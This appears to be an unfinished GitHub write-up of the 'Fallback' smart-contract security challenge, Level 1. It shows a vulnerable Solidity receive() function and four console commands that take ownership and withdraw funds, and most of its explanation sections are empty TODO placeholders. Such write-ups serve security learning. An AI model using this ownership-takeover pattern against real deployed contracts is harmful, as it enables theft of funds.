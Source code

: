 # Fallback challenge - Level 1 🚧 Update In Progress 🏗
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- TODO

```Solidity
/** 
* @notice This fallback function receive() is the main attack target, in order to pass the 
* require statement player must use function contribute() 1 wei will be enough, using the console
* player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
* player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
*/
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

## 🆘 The victim contract in detail

```yml
The victim contract imports OpenZeppelin's safeMath here:
```
- TODO

```Solidity

```

## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```

- TODO

```JavaScript

```

- TODO

```Solidity

```

## 💥 The attack in detail

```yml
The attack:
```

- TODO

```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
- TODO

```Solidity

```

## 🩺 How can we fix this vulnerablity in the victim contract?

- TODO

```Solidity

```











  
